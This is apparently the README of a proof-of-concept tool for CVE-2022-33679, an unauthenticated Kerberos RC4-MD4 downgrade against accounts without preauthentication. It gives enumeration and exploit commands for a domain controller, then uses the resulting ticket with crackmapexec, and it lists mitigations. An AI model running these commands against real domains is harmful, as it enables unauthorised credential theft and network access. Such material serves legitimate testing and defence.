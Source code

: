 # Kerberos Encryption Downgrade CVE-2022-33679

### CVE-2022-33679 performs an encryption downgrade attack by forcing the KDC to use the RC4-MD4 algorithm and then brute forcing the session key from the AS-REP using a known plaintext attack, Similar to AS-REP Roasting, it works against accounts that have preauthentication disabled and the attack is unauthenticated meaning we don’t need a client’s password..

## Requirements

 - Accounts with the attribute DONT_REQ_PREAUTH AKA ASREP Roastable account ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

 - RC4-MD4 encryption algorithm enabled on the KDC

### Usage:

    python CVE-2022-33679.py DOMAIN.LOCAL/User DC01.DOMAIN.LOCAL

    export KRB5CCNAME=/home/project/User.ccache

    crackmapexec smb DC01.DOMAIN.LOCAL -k --shares

## Mitigations

 - All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).

 - Disable RC4 cipher if possible.
